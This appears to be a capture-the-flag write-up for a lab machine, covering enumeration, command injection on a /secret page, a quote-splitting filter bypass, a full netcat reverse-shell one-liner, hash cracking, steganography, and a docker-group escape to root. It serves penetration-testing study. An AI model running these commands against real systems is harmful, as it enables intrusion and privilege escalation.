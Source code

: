 # Enumeration

We begin with full nmap scan followed by a detailed scan.

![7e3d297554b5965c48cd31ed64571b62.png](./_resources/7e3d297554b5965c48cd31ed64571b62.png)

![bfebb6b9c368d9cfb37145805943cc0b.png](./_resources/bfebb6b9c368d9cfb37145805943cc0b.png)

Since we have anonymous access to the ftp server, we can take a look. There, we fine a `note.txt` file.

![2a8a9426e2a0151f4220162866868c69.png](./_resources/2a8a9426e2a0151f4220162866868c69.png)

![df58dacb66632806248e04c56bece2c1.png](./_resources/df58dacb66632806248e04c56bece2c1.png)

Let's investigate the web server. A quick gobuster scan reveals a `/secret` directory, which we can seemingly use for command injection.

<br>

# Exploitation

![4e73a364dd3bdc1d5fdd78b250c83e39.png](./_resources/4e73a364dd3bdc1d5fdd78b250c83e39.png)

Trying out, for instance, the `id` command gives us a result.

![bfe98c5a48fc727eec1dba1019936143.png](./_resources/bfe98c5a48fc727eec1dba1019936143.png)

However, as indicated by the note we found, there is a filter on the commands we are allowed to input. For instance, attempting to use `cat` or `python` yields an error. The source codes reveals the forbidden commands:

![35a26288e1ddbf071d6837cf34dda127.png](./_resources/35a26288e1ddbf071d6837cf34dda127.png)

One way to bypass this is to use double quotations. For instance, instead of `ls` we can execute `l"s"`, and we see that this works.

![fbe9dcb0cce8d5856a756e5fbaf21395.png](./_resources/fbe9dcb0cce8d5856a756e5fbaf21395.png)

Now let's use the above method to execute a command to spawn a reverse shell using one of [these one-liners](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Set up a netcat listener. We use:

```txt
r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker IP> 9999 >/tmp/f
```

This goes through, and we catch our reverse shell.

![731d535bb57b11ab16fcd54043c4f76a.png](./_resources/731d535bb57b11ab16fcd54043c4f76a.png)

If we look around in the `/var/www` directory, we eventually find a `/files` subdirectory. The `index.php` file there contains some mysql credentials.

![f79e24313f86da81d506bd147df1c4ae.png](./_resources/f79e24313f86da81d506bd147df1c4ae.png)

We can use this to access the mysql database as the root user.

![913768cef6ed203a38b3d58d1379c680.png](./_resources/913768cef6ed203a38b3d58d1379c680.png)

Use `show databases;` to list the available databases. The `webportal` database looks interesting; execute `use webportal;` to change into that database. Using `show tables;` we find a `users` table; we get the columns with `describe users;`.

![89ca192f4cf8c3e248789c2879a0d172.png](./_resources/89ca192f4cf8c3e248789c2879a0d172.png)

Now use `select * from users` to get all the information from the `users` table.

![73f42f53ef20ef8fc66e167bb65d8916.png](./_resources/73f42f53ef20ef8fc66e167bb65d8916.png)

We get the information of two users with what appear to be hashed passwords. Running the hashes through a hash identifier, we determine that they are MD5 hashes. Now, we can either use a tool like hashcat to crack the hashes, or we can just use an online tool like [CrackStation](https://crackstation.net/). The latter immediately gets us the two passwords.

![803c4655d8d70e67a82511b5c8992bc0.png](./_resources/803c4655d8d70e67a82511b5c8992bc0.png)

Unfortunately, this seems to be a rabbit hole -- none of the passwords we found work for either ftp or ssh. We'll move on for now.

Within the same directory as the `index.php` file, we also found a `hacker.php` file. Catting it out reveals what looks like a hint.

![911da3281b593d7ed3b0762efbdcf8bb.png](./_resources/911da3281b593d7ed3b0762efbdcf8bb.png)

The image referenced in the source code is in the `/images` subdirectory. Let's pull it to our local machine by setting up an http server on the target with python. Opening the image reveals that it is, indeed, a photo of a hacker with a laptop.

![63edb9dd7b2692f2bfc45bb17d95f671.png](./_resources/63edb9dd7b2692f2bfc45bb17d95f671.png)

Since the hint told us to look in the dark, this suggests using some [steganography tools](https://0xrick.github.io/lists/stego/). We'll try steghide.

![57b615cbc5f4a1777002c218ecba98db.png](./_resources/57b615cbc5f4a1777002c218ecba98db.png)

When prompted for a password, we try pressing enter (since we don't have a password). Surprisingly, this works; a `backup.zip` file is extracted. Unfortunately, we don't have the password needed to unzip it.

![b6f24eea06897bcae06b71e83c114341.png](./_resources/b6f24eea06897bcae06b71e83c114341.png)

To get around this, we can use john. First, let's use `zip2john backup.zip > backup.txt` to convert the zip file, then we use john to crack the password.

![09fa2f042a2f96ee64fc79b951b231ce.png](./_resources/09fa2f042a2f96ee64fc79b951b231ce.png)

Now we can unzip the file to obtain a `source_code.php` file. Catting it out reveals a base64-encoded password for (presumably) anurodh, which we easily decode.

![e5ee74f131a225fbf895584ead0ee0d8.png](./_resources/e5ee74f131a225fbf895584ead0ee0d8.png)

This turns out to be anurodh's ssh password.

![4af7add8c7e33849d6e01b1e89315c55.png](./_resources/4af7add8c7e33849d6e01b1e89315c55.png)

<br>

# Post-Exploitation

We can ssh in as anurodh, but unfortunately we still don't have access to any flags. However, using `id` we see that anurodh is part of the docker group.

![7f472941955bca7e1d09e298fbb1c022.png](./_resources/7f472941955bca7e1d09e298fbb1c022.png)

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we see that we can use this to escape to a root shell. Simply run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`.

![18baaaeab642c540e165207d92bff451.png](./_resources/18baaaeab642c540e165207d92bff451.png)

Just like that, we're root! Let's get a better shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`.  Looking around, we easily find the two flags.

![2a0cf65c4bc70fbf61ebbb23e976d1bc.png](./_resources/2a0cf65c4bc70fbf61ebbb23e976d1bc.png)


Note that there is an alternative method we can use to obtain the `local.txt` flag. Once we gain initial access as the www-data user, we can find the first glag in apaar's home directory. Unfortunately, we don't have access. If we use `sudo -l`, we see that we can run a script in apaar's home directory using apaar's privileges.

![fbd1f75170e00d76d6fefb28b18b8452.png](./_resources/fbd1f75170e00d76d6fefb28b18b8452.png)

Observse that we are given two inputs; the `$msg`  input is sent to `/dev/null`. We can use this to elevate our privileges to that of apaar by inputting `/bin/bash` for the second input. This spawns a shell as apaar. We can then read the `local.txt` flag.

![f1cfbdfcc06d531b1e803e6d239e7881.png](./_resources/f1cfbdfcc06d531b1e803e6d239e7881.png)